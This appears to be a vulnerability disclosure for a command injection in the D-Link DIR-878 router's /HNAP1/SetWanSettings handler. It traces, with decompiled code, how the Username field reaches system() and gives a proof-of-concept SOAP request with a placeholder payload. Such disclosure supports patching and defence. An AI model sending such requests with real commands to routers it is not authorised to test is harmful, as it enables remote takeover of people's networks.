

## DIR-878 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-878

### Affected version

D-Link DIR-878  FW1.20B05 and FW1.10B05 was found to contain a command injection in `/HNAP1/SetWanSettings` of the component Web Interface `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell.



### Vulnerability details

Vulnerability occurs in `/HNAP1/SetWanSettings`. Attackers can control `v103` by setting the `Username` , then the program will pass `v103` to function `sub_464134`. Through inter-process communication, the parameter is finally passed to the `rc` program to complete the system call

```
In func sub_464680 of prog.cgi:
v103 = (const char *)webGetVarString(a1, "/SetWanSettings/Username");
trace(3, "‐‐‐‐‐‐‐‐pUser:%s pstPass:%s‐‐‐‐‐‐‐‐‐‐‐\n", v103, v104);
v72 = sub_464134(0, v77, v107, v108, v109, v103, v127, v105, v106, v80, v
 81, v110, v71);
 
 In func sub_464134 of prog.cgi:
 nvram_safe_set("wan_wan0_vpn_username", a6);
 
 In start_wan of rc:
 v83 = (const char *)nvram_safe_get("wan_wan0_vpn_username");
 sprintf(v190, "echo '%s * %s *'>/tmp/ppp/chap‐secrets", v83, v84);
 system(v190)
```

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `Username`.

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 580
Accept: text/xml
HNAP_AUTH: 6EA57BC3825CEF9821DC8A2C46035271 1827139043216
SOAPACTION: "http://purenetworks.com/HNAP1/SetWanSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: text/xml
Origin: http://192.168.0.1
Referer: http://192.168.0.1/WanSettings.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=bgeGaHlw
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWanSettings xmlns="http://purenetworks.com/HNAP1/">
			<Type></Type>
			<Username>payload</Username>
			<Password></Password>
			<MaxIdleTime></MaxIdleTime>
			<HostName></HostName>
			<VPNIPAddress></VPNIPAddress>
			<VPNSubnetMask></VPNSubnetMask>
			<VPNGateway></VPNGateway>
			<ServiceName></ServiceName>
			<AutoReconnect></AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask></SubnetMask>
			<Gateway></Gateway>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU></MTU>
			<DsLite_Configuration></DsLite_Configuration>
			<DsLite_AFTR_IPv6Address></DsLite_AFTR_IPv6Address>
			<DsLite_B4IPv4Address></DsLite_B4IPv4Address>
		</SetWanSettings>
	</soap:Body>
</soap:Envelope>
```

